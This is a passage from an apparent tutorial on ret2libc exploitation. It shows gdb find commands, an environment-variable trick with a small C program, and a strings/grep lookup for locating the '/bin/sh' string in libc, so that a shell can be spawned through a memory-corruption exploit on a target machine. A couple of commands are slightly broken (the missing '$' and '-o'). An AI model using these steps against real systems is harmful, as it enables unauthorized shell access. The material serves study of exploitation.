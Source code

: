 ```
find 0xb759c320, +9939401, "/bin/sh"
Or
find &system,+9999999,"sh"
```

\#Take a note of the address in output. Say it's \[0x76beb9e] You can verify its indeed for \[/bin/sh] by running below command in gdb

```
x/s 0x76beb9e
```

**Alternative way to find the address of \[/bin/sh]** On the target vulnerable machine, we store \[/bin/sh] in an environment variable called \[shellcode]

```
export shellcode=/bin/sh
echo shellcode
```

And then with a simple C program below we can find the address

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("shellcode");
        if (ptr != NULL)
        {
                printf("/bin/sh address: %p\n", ptr);
                return 0;
        }
}
```

Compile the code

```
gcc address-finder.c address-finder
```

And run

```
./address-finder
```

It should give you the address.

**Another Alternative way to find the address of \[/bin/sh]** On the target machine, we find the offset of \[/bin/sh] in \[libc] using the string command.

```
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

Say the offset is \[0x0015ba2a] Next you need the address of \[libc] which you can get by running \[ldd] against the binary
